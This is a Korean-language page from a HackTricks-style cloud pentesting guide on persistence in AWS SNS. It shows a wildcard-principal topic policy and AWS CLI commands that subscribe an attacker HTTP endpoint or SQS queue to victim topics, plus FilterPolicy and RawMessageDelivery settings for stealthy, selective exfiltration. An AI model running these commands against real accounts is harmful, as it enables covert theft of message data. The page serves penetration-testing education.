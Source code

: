 # AWS - SNS 영속성

{{#include ../../../../banners/hacktricks-training.md}}

## SNS

자세한 정보는 다음을 확인하세요:

{{#ref}}
../../aws-services/aws-sns-enum.md
{{#endref}}

### 영속성

**SNS topic**을 생성할 때 IAM policy로 **누가 읽기 및 쓰기 권한이 있는지**를 지정해야 합니다. 외부 계정, 역할의 ARN, 또는 **심지어 "\*"**를 지정할 수 있습니다.\
다음 정책은 AWS의 모든 사용자에게 **`MySNS.fifo`**라는 SNS topic에 대한 읽기 및 쓰기 권한을 부여합니다:
```json
{
"Version": "2008-10-17",
"Id": "__default_policy_ID",
"Statement": [
{
"Sid": "__default_statement_ID",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"SNS:Publish",
"SNS:RemovePermission",
"SNS:SetTopicAttributes",
"SNS:DeleteTopic",
"SNS:ListSubscriptionsByTopic",
"SNS:GetTopicAttributes",
"SNS:AddPermission",
"SNS:Subscribe"
],
"Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo",
"Condition": {
"StringEquals": {
"AWS:SourceOwner": "318142138553"
}
}
},
{
"Sid": "__console_pub_0",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "SNS:Publish",
"Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
},
{
"Sid": "__console_sub_0",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "SNS:Subscribe",
"Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
}
]
}
```
### 구독자 생성

모든 토픽의 모든 메시지를 계속 유출하려면 공격자는 **모든 토픽에 대한 구독자를 생성할 수 있습니다**.

참고로 **토픽이 FIFO 유형인 경우**, 프로토콜로 **SQS**를 사용하는 구독자만 사용할 수 있습니다.
```bash
aws sns subscribe --region <region> \
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
### 은밀한, 선택적 exfiltration via FilterPolicy on MessageBody

주제에 대해 `sns:Subscribe` 및 `sns:SetSubscriptionAttributes` 권한을 가진 공격자는 JSON 본문이 매우 좁은 필터(예: `{"secret":"true"}`)와 일치하는 경우에만 메시지를 전달하는 은밀한 SQS 구독을 생성할 수 있습니다. 이렇게 하면 전송량과 탐지 가능성을 줄이면서도 민감한 레코드를 exfiltrate할 수 있습니다.

**잠재적 영향**: 피해자 Topic에서 타깃된 SNS 메시지들만 은밀하고 저소음으로 exfiltration될 수 있음.

단계 (AWS CLI):
- 공격자 SQS 큐 정책이 피해자 `TopicArn`에서 오는 `sqs:SendMessage`를 허용하는지 확인(Condition `aws:SourceArn`가 `TopicArn`과 동일한지).
- 토픽에 대한 SQS 구독 생성:

```bash
aws sns subscribe --region us-east-1 --topic-arn TOPIC_ARN --protocol sqs --notification-endpoint ATTACKER_Q_ARN
```

- 필터가 메시지 본문에서 동작하도록 설정하고 `secret=true`만 매치하도록 설정:

```bash
aws sns set-subscription-attributes --region us-east-1 --subscription-arn SUB_ARN --attribute-name FilterPolicyScope --attribute-value MessageBody
aws sns set-subscription-attributes --region us-east-1 --subscription-arn SUB_ARN --attribute-name FilterPolicy --attribute-value '{"secret":["true"]}'
```

- 선택적 은밀성: RawMessageDelivery를 활성화하면 수신자에게 원시 페이로드만 전달됩니다:

```bash
aws sns set-subscription-attributes --region us-east-1 --subscription-arn SUB_ARN --attribute-name RawMessageDelivery --attribute-value true
```

- 검증: 두 메시지를 게시하고 첫 번째 메시지만 공격자 큐로 배달되는지 확인하세요. 예시 페이로드:

```json
{"secret":"true","data":"exfil"}
{"secret":"false","data":"benign"}
```

- 정리: persistence 테스트를 위해 생성한 경우 공격자 SQS 큐의 구독을 해지하고 큐를 삭제하세요.

{{#include ../../../../banners/hacktricks-training.md}}
